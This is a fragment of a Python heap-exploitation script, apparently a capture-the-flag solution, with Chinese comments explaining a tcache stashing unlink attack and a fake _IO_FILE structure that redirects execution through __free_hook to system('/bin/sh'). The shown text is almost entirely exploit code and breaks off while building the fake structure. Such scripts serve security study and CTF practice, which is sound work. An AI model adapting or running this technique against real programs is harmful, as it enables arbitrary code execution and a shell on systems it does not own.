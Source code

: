 ```python

# 由于这里写是跳行写，所以要申请一个正常输入的堆，这里将其地址链入IO_chain
change(3)
payload = '\x00'*0x18 + p64(heap_base+0x4540)
payload = payload.ljust(0x160, '\x00')
add(0x440, payload)

add(0x90,'a'*0x30)# tcache stashing unlink attack

# IO攻击
# payload的/bin/sh应该是写在heapbase+0x4620的位置，那么buf_end就应该是heapbase+0x4638
# 因为其插值 0x18*2+100 等于0x94，即会申请到0xa0大小的chunk即free_hook-0x10
# 然后copy['/bin/sh\x00' + p64(system)*2]到free_hook-0x10
# free触发system

str_jumps=libc_base+(0x7ff9fa4a1560-0x7ff9fa2b4000)
fake_IO_FILE = p64(0)*2
fake_IO_FILE += p64(0)# _IO_write_base
fake_IO_FILE += p64(0xffffffffffff) #_IO_write_ptr = 0xffffffffffff
fake_IO_FILE += p64(0)
fake_IO_FILE += p64(heap_base+0x4620)                #_IO_buf_base
